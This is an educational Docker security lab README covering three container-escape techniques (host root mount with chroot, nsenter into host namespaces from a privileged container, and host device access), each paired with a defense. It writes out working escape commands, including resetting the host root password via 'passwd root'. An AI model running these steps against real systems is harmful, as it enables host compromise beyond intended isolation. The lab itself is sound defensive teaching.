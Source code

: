 # 🧪 Container Escape with Docker (Educational Use Only)

> ⚠️ WARNING: These labs are for educational and defensive purposes only.  
> Run them **only in isolated, non-production environments** like VMs or lab systems.

## 🎯 Objective

Learn how insecure Docker configurations can lead to container escapes and host compromise — and how to prevent them.

---

## 🧰 Prerequisites

- A Linux VM (never your main host!)
- Docker installed
- Root access
- Tools: `procps`, `util-linux`

```bash
sudo apt update
sudo apt install procps util-linux -y
```

---

## 🔹 Lab 1: Host Mount Escape via `-v /:/host`

### Step 1: Run a container with full host access

```bash
docker run -it --rm --privileged -v /:/host ubuntu bash
```

### Step 2: Simulate host access

```bash
chroot /host bash
passwd root  # Example, do not use on real systems
```

✅ **Expected:** Full host access.

🧠 **Defense:** Never mount `/`, use strict volume policies.

---

## 🔹 Lab 2: Escape via `--privileged` and `/proc`

### Step 1: Start a privileged container

```bash
docker run -it --rm --privileged ubuntu bash
```

### Step 2: Enter host namespaces

```bash
nsenter --target 1 --mount --uts --ipc --net --pid
```

✅ **Expected:** You are now in the host’s namespaces.

🧠 **Defense:** Avoid `--privileged`, use minimal capabilities.

---

## 🔹 Lab 3: Escape via Host Devices

### Step 1: Run container with device access

```bash
docker run -it --rm --privileged --device /dev/kmsg ubuntu bash
```

### Step 2: Write to kernel logs

```bash
echo "MESSAGE FROM CONTAINER" > /dev/kmsg
```

✅ **Expected:** Writes to host kernel logs.

After exiting the container check kernel logs with `sudo dmesg`.  
You should see an entry like this:

```bash
[281931.449363] MESSAGE FROM CONTAINER
```

🧠 **Defense:** Do not expose host devices unless absolutely needed.

---

## ✅ Wrap-Up

- **What you learned:**
  - How misconfigurations can lead to escapes
  - Common escape vectors: privileged mode, host mounts, capabilities
  - Defense-in-depth: drop caps, limit mounts, audit configs

- **Best practices:**
  - Never use `--privileged` unless critical
  - Use security profiles (AppArmor, seccomp)
  - Use namespaces and rootless containers
  - Audit Dockerfiles and runtime flags

---
